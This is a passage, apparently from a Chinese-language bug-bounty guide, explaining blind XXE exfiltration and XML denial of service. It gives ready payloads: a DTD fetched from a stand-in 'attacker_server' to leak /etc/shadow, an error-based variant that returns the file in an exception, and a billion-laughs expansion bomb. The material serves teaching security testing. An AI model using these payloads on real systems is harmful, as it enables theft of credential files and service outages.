 然后通过在参数实体中指定 DTD 并引用该实体，让目标解析器解析你的 DTD：

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE example [ <!ENTITY % xxe SYSTEM "http://attacker_server/xxe.dtd"> %xxe;
]>
```

这样，目标服务器将解析提交的 XML 文件并注意到参数实体引用了一个外部文件。然后，目标服务器将检索并解析该外部 DTD，因此你的载荷将执行，目标将把外泄的数据发送回你的服务器。在这里，我们通过请求攻击者的服务器，以 URL 参数的形式外泄文件*/etc/shadow*的内容。

请注意，在这个攻击中，我们只使用了参数实体，根本没有使用外部实体！如果解析器阻止外部实体或限制实体的引用以防止 XXE 攻击，你也可以使用这种技术。不过，这种策略只能外泄目标文件中的一行数据，因为目标文件中的换行符（`\n`）会中断外发的 URL，甚至可能导致 HTTP 请求失败。

通过盲 XXE 外泄数据的一个更简单的方法是强迫解析器返回描述性错误信息。例如，你可以通过将不存在的文件作为外部实体的值，诱发“文件未找到”错误。你的外部 DTD 可以重新编写如下：

```
<!ENTITY % file SYSTEM "file:///etc/shadow">
<!ENTITY % ent "<!ENTITY &#x25; error SYSTEM 'file:///nonexistent/?%file;'>">
%ent;
%error;
```

请注意，我将*/etc/shadow*的内容包含在了不存在的文件路径的 URL 参数中。然后，你可以将相同的载荷提交到目标，以触发攻击：

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE example [ <!ENTITY % xxe SYSTEM "http://attacker_server/xxe.dtd"> %xxe;
]>
```

这个恶意的 DTD 将导致解析器将期望的文件内容作为“文件未找到”错误返回：

```
java.io.FileNotFoundException: file:///nonexistent/FILE CONTENTS OF /etc/shadow
```

### 执行拒绝服务攻击

攻击者利用 XML 漏洞的另一种潜在方式是发起拒绝服务攻击（DoS），通过破坏机器的正常运作，使得合法用户无法访问其服务。请注意，绝不要在真实目标上尝试此操作！在真实目标上测试 DoS 攻击可能导致组织的财务损失，并且通常违反公司的漏洞赏金政策：

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE example [ <!ELEMENT example ANY> <!ENTITY lol "lol"> <!ENTITY lol1 "&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;"> <!ENTITY lol2 "&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;"> <!ENTITY lol3 "&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;"> <!ENTITY lol4 "&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;"> <!ENTITY lol5 "&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;"> <!ENTITY lol6 "&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;"> <!ENTITY lol7 "&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;"> <!ENTITY lol8 "&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;"> <!ENTITY lol9 "&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;">
]>
<example>&lol9;</example>
```

这个载荷将实体嵌套在实体中，导致 XML 解析器递归地解除引用实体以获取根实体值`lol`。每个`lol9`实体将展开为 10 个`lol8`值，而这些值将变成 10 个`lol7`，依此类推。最终，一个`lol9`将扩展为十亿个`lol`。这将超载 XML 解析器的内存，可能导致其崩溃。
